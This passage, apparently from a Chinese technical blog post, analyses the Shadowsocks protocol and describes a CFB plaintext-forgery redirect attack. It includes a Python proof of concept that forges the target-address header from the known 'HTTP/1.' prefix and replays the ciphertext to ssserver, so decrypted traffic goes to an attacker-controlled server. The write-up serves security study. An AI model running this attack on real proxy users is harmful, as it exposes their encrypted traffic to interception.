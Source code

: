 通过上面协议的分析，可以得出 sslocal 发送给 ssserver 的数据格式为：

```
随机IV + encrypt([ 1-byte type][variable-length host][2-byte port][payload])
```
ssserver 发送给 sslocal 的数据格式为：

```
随机IV + encrypt([payload])
```

如果我们拿到了 ssserver 发送给 sslocal 的数据，使用常规的非暴力手段是无法解密的，但是如果我们知道了此数据的前7个字节，那么就可以利用上面介绍的CFB明文伪造攻击将 `fake_明文分组1` 的前7个字节伪造为 `[ 1-byte type][variable-length host][2-byte port]` ,然后把此数据包做为 sslocal 发送给 ssserver 的数据，发给 ssserver。
因为数据 `[ 1-byte type][variable-length host][2-byte port] `的内容可以完全被我们控制，所以将目标地址修改为我们自己的服务器，然后 ssserver 就会把解密完的数据发送到我们自己的服务器上，工作过程如下所示：

```
ss-local(fake one) <--[encrypted]--> ss-remote <---> target(controlled)
```

那关键问题是怎么知道加密数据的前7个字节的明文呢？论文中提供了一种方法，如果用户使用 shadowsocks 进行 http 通信，那么响应的前7个字节是`HTTP/1.`,我们可以利用这7个字节来解密整个数据包。
具体的代码实现如下：

```python
c=c.decode('hex')
#c=up(c)
prefix_http='HTTP/1.'
targetIP='\x01\x27\x6c\x05\x37\x1e\x61' # malicous target IP address: 192.168.1.3:4626
x=xor(prefix_http,targetIP)
 
y=c[16:16+7]
z=xor(x,y)
cipertext=c[0:16]+z+c[16+7:]
import socket
obj = socket.socket()
print ("begin\n")
obj.connect(("127.0.0.1",7878))# ss-server is running on 192.168.1.2:8899
obj.send(cipertext)# send the payload to construct a redirect tunnel
```

因为修改了第一个密文分组，所以解密出来的第二个明文分组是不正确的，如下图所示，有16个字节的错误数据：

![http://pic.wonderkun.cc/uploads/2020/02/2020-02-17-23-56-23.png](http://pic.wonderkun.cc/uploads/2020/02/2020-02-17-23-56-23.png)

因为不知道到底哪个数据包传输的内容是 http 协议，所以需要多试几次，直到解密成功一个为止。 一旦解密成功，就可以知道一段密文分组经过key加密之后的值，就可以反解出key，进而破解所有数据包。


## 参考文章

https://tools.ietf.org/html/rfc1928
https://jiajunhuang.com/articles/2019_06_06-socks5.md.html
https://blog.gfkui.com/2018/04/29/shadowsocks%E5%AE%A2%E6%88%B7%E7%AB%AF%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90/index.html
https://loggerhead.me/posts/shadowsocks-yuan-ma-fen-xi-tcp-dai-li.html
https://github.com/shadowsocks/shadowsocks/tree/master/shadowsocks
https://github.com/edwardz246003/shadowsocks





